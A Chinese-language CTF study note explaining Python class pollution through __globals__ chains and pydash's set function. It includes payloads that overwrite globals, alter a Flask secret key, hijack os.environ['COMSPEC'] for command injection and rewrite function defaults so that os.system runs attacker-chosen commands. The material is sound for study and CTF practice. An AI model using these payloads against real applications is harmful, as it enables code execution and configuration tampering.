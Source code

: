 # Python 类原型链污染
## 认识
Python 下的类原型链污染利用，通过这篇[文章](https://blog.abdulrah33m.com/prototype-pollution-in-python/)进行一个认识。
```python
obj, neko = TaskManager(), 123  
assert obj.__init__.__func__ == obj.__class__.__init__  
obj.__class__.__init__.__globals__.__setitem__('neko', 456)  
assert neko == 456
```
在上述例子中，通过 `<function>.__globals__` 获取到了当前位置的全局变量，然后调用 `__setitem__` 进行修改。`obj.__init__`是一个 bound method， 在内部存储了底层函数和绑定的实例，可以使用 `__func__` 和 `__self__` 获取。
在第三方库中，Pydash 对此做了一定封装，其主要逻辑：
```python
for idx, token in enumerate(pyd.initial(tokens)):
	if isinstance(token, PathToken):
		key = token.key
		default_factory = pyd.get(tokens, [idx + 1, "default_factory"], default=default_type)
	else:
		key = token
		default_factory = default_type

	obj_val = base_get(target, key, default=None)
	path_obj = None

	if call_customizer:
		path_obj = call_customizer(obj_val, key, target)

	if path_obj is None:
		path_obj = default_factory()

	base_set(target, key, path_obj, allow_override=False)

	try:
		target = base_get(target, key, default=None)
	except TypeError as exc:  # pragma: no cover
		try:
			target = target[int(key)]
			_failed = False
		except Exception:
			_failed = True

		if _failed:
			raise TypeError(f"Unable to update object at index {key!r}. {exc}")

value = base_get(target, last_key, default=None)
base_set(target, last_key, callit(updater, value))
```
`base_set` 部分：
```python
def base_set(obj, key, value, allow_override=True):
    if isinstance(obj, dict):
        if allow_override or key not in obj:
            obj[key] = value
    elif isinstance(obj, list):
       #...
    elif (allow_override or not hasattr(obj, key)) and obj is not None:
        setattr(obj, key, value)

    return obj
```
所以可以换成 Pydash 的写法：
```python
obj.__class__.__init__.__globals__.__getitem__('__loader__').__init__.__func__.__globals__.__getitem__('sys').__getattribute__('modules').__getitem__('__main__').__setattr__('neko', 789)
assert neko == 789
# x.__getitem__('foo') == x['foo']
# x.__getattribute__('bar') == x.bar
obj.set('__class__.__init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.neko', 114514)
assert neko == 114514
```
## 利用
- 全局变量修改，例子见上
- Flask secret key 篡改，一些配置参数改变，同全局变量操作
- os.environ 劫持环境变量，造成命令注入
```python
obj.__class__.__init__.__globals__['subprocess'].os.environ.__setitem__('COMSPEC', "cmd /c calc")
# os.environ['COMSPEC'] = "cmd /c calc"
subprocess.Popen('whoami', shell=True)
```
- 通过覆写来改变函数的默认参数
首先是 function 中的 `__kwdefaults__` ：
```python
def exec(*, cmd='whoami'):
    os.system(cmd)
obj.__class__.__init__.__globals__['exec'].__kwdefaults__.__setitem__('cmd', 'calc.exe')
exec()
```
而 `__kwdefaults__` 存在需要满足 func 的参数中有 `*param`。但需要注意的是并非所有的默认 kw 参数都能覆盖，经过测试发现只能覆盖 `*` 之后的参数。
```python
# `__kwdefaults__`
def func_test(a=1, *, b=1):
	assert a == 1 and b == 2
# a 不能被覆盖，b 能被覆盖
func_test.__kwdefaults__.__setitem__('a', 2)
func_test.__kwdefaults__.__setitem__('b', 2)
func_test()
```
还有一个 `__defaults__`，但由于返回的是 tuple 不可变，所以利用更有限。
```python
# `__defaults__`
def func_test(cmd, mode="r", buffering=-1):
	assert mode == 114 and buffering == 514
	pass
# 若元组个数超过参数个数，则取 last
func_test.__setattr__('__defaults__', ('w', 114, 514))
func_test('SilentE')
```
## 可能的漏洞点
应该只有 CTF 中才有了hh

- 直接使用文章中的 merge 函数
- 使用 pydash 的 `set_`  (Update: 作者已 Fix，新版本已经寄了)
- 漏洞代码 `obj.__setattr__/__setitem__(k: string, v: string)` 中 obj，k，v 完全可控。